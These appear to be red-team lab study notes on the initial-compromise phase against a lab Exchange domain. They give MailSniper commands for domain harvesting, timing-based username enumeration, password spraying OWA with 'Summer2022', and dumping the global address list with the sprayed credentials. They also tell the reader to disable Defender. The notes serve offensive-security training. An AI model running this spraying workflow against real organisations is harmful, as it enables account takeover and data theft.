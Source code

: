 # Cobalt Strike 
- see cobalt strike file 

# External Recon Tools

- whois 
- dig
- dnscan
- other osint tools known

# Initial compromise (DISABLE WINDOWS DEFENDER ON ATTACKER MACHINE) 

-Mail Sniper 
-namesmash.py

**Used for attacking OWA Exchange service at MAIL DOMAIN that was found during the external recon.**

**Technique: Password Spraying**

>PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

##### Enumerate the NetBIOS name of the target domain with Invoke-DomainHarvestOWA.

>PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

##### Next, we need to find valid usernames from the list of users enumerated from https://cyberbotic.io.

>ubuntu@DESKTOP-3BSK7NO ~> cd /mnt/c/Users/Attacker/Desktop/
>ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> cat names.txt
*We could potentially skip this step if we knew the email address format from somewhere like hunter.io.*

##### Invoke-UsernameHarvestOWA uses a timing attack to validate which (if any) of these usernames are valid.

>PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

##### MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

>PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

##### PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

>PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

##### If there are names here that we didn't find during initial recon, we can go back and do another round of spraying against them.









